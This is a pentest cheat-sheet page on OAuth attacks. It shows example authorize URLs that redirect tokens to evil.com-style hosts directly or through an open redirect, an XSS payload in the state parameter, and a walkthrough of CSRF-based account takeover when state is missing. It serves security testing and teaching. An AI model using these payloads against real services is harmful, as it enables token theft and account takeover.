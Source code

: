 ```yaml
---
title: "0Auth Authentication"
draft: false
images: []
menu:
  docs:
    parent: "Web Pentest"
weight: 100
toc: true
---
```


## Grabbing OAuth Token via redirect_uri
Redirect to a controlled domain to get the access token
```
https://www.example.com/signin/authorize?[...]&redirect_uri=https://demo.example.com/loginsuccessful
https://www.example.com/signin/authorize?[...]&redirect_uri=https://localhost.evil.com
```
Redirect to an accepted Open URL in to get the access token
```
https://www.example.com/oauth20_authorize.srf?[...]&redirect_uri=https://accounts.google.com/BackToAuthSubTarget?next=https://evil.com
```
### Executing XSS via redirect_uri
```
https://example.com/oauth/v1/authorize?[...]&redirect_uri=data%3Atext%2Fhtml%2Ca&state=<script>alert('XSS')</script>
```
### Improper handling of state parameter
This is by far the most common issue I see in OAuth implementations. Very often, the state parameter is completely omitted or used in the wrong way. If a state parameter is nonexistent, or a static value that never changes, the OAuth flow will very likely be vulnerable to CSRF. Sometimes, even if there is a state parameter, the application might not do any validation of the parameter and an attack will work. The way to exploit this would be to go through the authorization process on your own account, and pause right after authorizing. You will then come across a request such as:
```
https://yourtweetreader.com?code=asd91j3jd91j92j1j9d1
```
After you receive this request, you can then drop the request because these codes are typically one-time use. You can then send this URL to a logged-in user, and it will add your account to their account. At first, this might not sound very sensitive since you are simply adding your account to a victim’s account. However, many OAuth implementations are for sign-in purposes, so if you can add your Google account which is used for logging in, you could potentially perform an Account Takeover with a single click as logging in with your Google account would give you access to the victim’s account.